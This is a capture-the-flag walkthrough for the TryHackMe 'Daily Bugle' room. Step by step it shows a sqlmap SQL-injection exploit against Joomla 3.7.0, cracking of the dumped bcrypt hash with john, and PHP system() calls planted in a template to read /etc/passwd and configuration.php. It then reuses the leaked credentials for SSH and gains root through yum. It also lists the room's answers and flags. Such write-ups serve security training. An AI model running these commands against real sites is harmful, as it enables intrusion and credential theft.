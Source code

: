 # Daily Bugle Walkthrough
### Link
- https://tryhackme.com/room/dailybugle
---
### Task 1 - Deploy
**Question**
###### Who robbed the bank?
**Answer**
###### spiderman
---
### Task 2 - Obtain user and root
1. Reco
- NMAP
```shell
nmap -sC -sV [IP] 
Result:
--> Port 22/80/3306 opened
--> Port 3306: MariaDB
```
[DailyBugle_1.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_1.png)
- Gobuster
```
gobuster dir -u http://[IP]:80 -w [path to wordlist]
Directories found:
/images
/templates
/media
/modules
/bin
/plugins
/includes
/language
/components
/cache
/libraries
/tmp
/layouts
/administrator
```
[DailyBugle_2.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_2.png)
- Joomscan

We know **Joomla** is installed.
We have an interesting tool : joomscan (https://www.kali.org/tools/joomscan/)

```
joomscan -u [IP]
```
[DailyBugle_3.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_3.png)

**Question**
###### What is the Joomla version?
**Answer**
###### Joomla 3.7.0

2. Find and use an exploit

With the Joomla version, we can try to find an exploit
```
searchsploit joomla 3.7.0
Result:
Joomla! 3.7.0 - 'com_fields' SQL Injection         | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Sit | php/webapps/43488.txt
```

So let's now focus on the first one : SQL Injection
Explore the txt file to understand the exploit
```
searchsploit -x php/webapps/42033.txt
```
[DailyBugle_4.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_4.png)
We have a beautiful sqlmap commandline to help us ^_^

3. SQLMAP 
```
SQLMAP:
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
*Info* : I don't use the option *--level=5* to perform the command to obtain the result more faster.
[DailyBugle_5.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_5.png)

Now, let's check all tables 
```
sqlmap -u "http://10.10.59.102/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla --tables
```
[DailyBugle_6.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_6.png)

We found too many tables: 72
Let's focus on __schemas , __session , __users , __user_keys
After few research, only **__users** give us interesting informaiton.
```
sqlmap -u "http://10.10.27.8/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla -T "#__users" --dump

Result:
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
| id  | name       | email               | params  | password                                                     | username |
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
| 811 | Super User | jonah@tryhackme.com | <blank> | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm | jonah    |
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
```
[DailyBugle_7.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_7.png)

We have the hash password for the **Super User** : jonah

4. Decrypt the password
- Firt : find the hash type
**$2y$**10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm 
- Second : search in Internet what is this type
**bcrypt**
- Thrid : Use john and decrypt the password
    - Create a file and copy/paste the hash
    - Use john
```
john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash_jonah
```
[DailyBugle_8.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_8.png)

**Question**
###### What is Jonah's cracked password?
**Answer**
###### spiderman123

5. Joomla

Let's navigate in the administration portal.
User --> just jonah is here with super user privileges
User Groups --> Only 1 user (Jonah) is here
[DailyBugle_9.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_9.png)

Now let's move to **Configuration/Global** --> Nothing really special
Move to **Configuration/Templates** --> **One Template is used for allpages: Protostar**. Good information. We probably use this template to gather more informaiton.
[DailyBugle_10.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_10.png)

We can edit this template to see if we can exploit it by adding some code. 

For that: 
- Click on Templates and select Protostar [DailyBugle_11.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_11.png)
- Edit index.php [DailyBugle_12.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_12.png)
- Add the line [DailyBugle_13.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_13.png): 
```
system("cat /etc/passwd")
```
- Save and refresh the Home page
**Finding** : Jonah Jameson:/home/jjameson:/bin/bash

Now we can try to find some information in configuration.php
- Add the line : 
```
system("cat configuration.php")
```
**Finding** : public $user = 'root'; public $password = 'nv5uz9r3ZEDzVjNu'

6. SSH

With the user **jjameson** and this password **nv5uz9r3ZEDzVjNu**, we can SSH the server.
[DailyBugle_14.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_14.png)
**Question**
###### What is the user flag?
**Answer**
###### 27a260fe3cba712cfdedb1c86d80442e

7. Privilege escalation

- First: check what actions can do jjameson [DailyBugle_15.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_15.png)
```
sudo -l
Result: jjameson can execute yum
```
- Second: check https://gtfobins.github.io/gtfobins/yum/
- Third: Create a file and copy/paste all command from the website [DailyBugle_16.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_16.png)
- Fourth : Make this file executable
```
chmod +x yum.sh
```
- Fifth : execute
```
./yum.sh
```
- Sixth: We are **root**
[DailyBugle_17.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_17.png)
**Question**
###### What is the root flag?
**Answer**
###### eec3d53292b1821868266858d7fa6f79





